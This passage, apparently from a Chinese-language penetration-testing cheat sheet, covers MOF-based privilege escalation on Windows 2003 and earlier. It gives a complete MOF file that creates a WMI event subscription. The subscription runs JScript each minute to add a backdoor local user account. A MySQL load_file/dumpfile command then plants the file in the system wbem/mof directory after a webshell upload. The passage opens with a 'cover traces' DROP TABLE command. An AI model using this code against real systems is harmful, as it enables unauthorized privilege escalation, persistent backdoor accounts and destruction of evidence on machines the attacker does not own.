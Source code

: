 
```sql
# 消除痕迹，删除表
DROP TABLE laffrex;
```

****

### 使用mof提权

- 原理:利用`c:/Windows/system32/wbem/mof`目录下的`nullevt.mof`文件,该文件`每分钟`都会在一个特定的时间去`执行一次`的特性
- 利用条件
  - windows <= 2003
  - 对`c:/Windows/system32/wbem/mof`有读写权限
  - 可实现mof文件到相应目录,例如:`数据库允许外联`,有`webshell`,有可写的sql注入漏洞等情况

- `xxx.mof`文件

```cmd
#pragma namespace("\\\\.\\root\\subscription")

instance of __EventFilter as $EventFilter
{
	EventNamespace = "Root\\Cimv2";
	Name  = "filtP2";
	Query = "Select * From __InstanceModificationEvent "
			"Where TargetInstance Isa \"Win32_LocalTime\" "
			"And TargetInstance.Second = 5";
	QueryLanguage = "WQL";
};

instance of ActiveScriptEventConsumer as $Consumer
{
	Name = "consPCSV2";
	ScriptingEngine = "JScript";
	ScriptText =
	"var WSH = new ActiveXObject(\"WScript.Shell\")\nWSH.run(\"net.exe user cxk666 cxk666 /add\")";
};

instance of __FilterToConsumerBinding
{
	Consumer   = $Consumer;
	Filter = $EventFilter;
};
```

#### 示例

- 上传`shell`并连接
- 上传`xxx.mof`脚本
- 移动脚本到`c:/windows/system32/wbem/mof/`目录

```sql
select load_file('c:/phpstudy/www/nullevt.mof') into dumpfile 'c:/windows/system32/wbem/mof/nullevt.mof';
```

